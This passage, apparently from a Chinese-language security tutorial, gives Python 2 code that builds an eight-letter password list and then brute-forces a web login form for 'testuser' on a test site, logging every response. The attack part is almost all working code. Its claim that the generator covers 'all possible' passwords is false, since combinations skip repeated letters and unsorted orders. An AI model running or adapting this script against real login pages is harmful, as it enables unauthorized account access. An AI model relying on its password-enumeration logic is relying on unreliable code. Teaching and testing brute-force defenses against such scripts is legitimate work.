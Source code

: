 我们可以生成包含一系列字符的所有可能密码，如下所示：

```
# import required modules
from itertools import combinations  

from string import ascii_lowercase 

# Possible password list 

passwords = (p for p in combinations(ascii_lowercase,8)) 

for p in passwords: 

    print ''.join(p) 

```

稍后，我们可以在暴力攻击中使用这些密码，如下所示：

```
import mechanize 

from itertools import combinations  

from string import ascii_lowercase 

url = "http://www.webscantest.com/login.php" 

browser = mechanize.Browser() 

attackNumber = 1 

# Possible password list 

passwords = (p for p in combinations(ascii_lowercase,8)) 

for p in passwords: 

    browser.open(url) 

    browser.select_form(nr=0) 

    browser["login"] = 'testuser' 

    browser["passwd"] = ''.join(p) 

    res = browser.submit() 

    content = res.read() 

    # Print  response code 

    print res.code 

     # Write response to file 

    output = open('response/'+str(attackNumber)+'.txt', 'w') 

    output.write(content) 

    output.close() 

    attackNumber += 1 

```